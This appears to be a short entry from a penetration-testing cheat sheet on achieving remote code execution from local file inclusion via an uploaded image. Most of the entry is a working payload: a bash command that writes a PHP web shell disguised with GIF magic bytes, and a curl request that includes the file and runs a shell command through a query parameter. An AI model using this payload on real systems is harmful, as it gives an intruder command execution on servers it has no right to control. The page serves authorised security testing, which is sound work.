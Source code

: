# file upload

## Image Upload

{% hint style="info" %}
The prerequisite for this method is to be able to [upload a file](../../../inputs/unrestricted-file-upload.md).
{% endhint %}

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

{% hint style="info" %}
Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).
{% endhint %}
